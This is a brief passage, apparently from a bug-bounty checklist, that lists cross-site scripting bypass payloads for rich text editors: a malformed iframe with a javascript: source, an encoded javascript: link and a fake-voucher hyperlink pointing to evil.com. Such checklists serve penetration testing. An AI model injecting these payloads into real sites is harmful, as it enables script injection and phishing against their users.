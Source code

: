 # Rich Editor/Text

*   [ ] **XSS Bypass for Rich Text Editors**

    ```js
    First, try all the built-in functions like bold, links, and embedded images.

    <</p>iframe src=javascript:alert()//
    <a href="aaa:bbb">x</a>
    <a href="j%26Tab%3bavascript%26colon%3ba%26Tab%3blert()">x</a>

    [Click on me to claim 100$ vouchers](<https://evil.com>) -> Hyperlink Injection
    ```
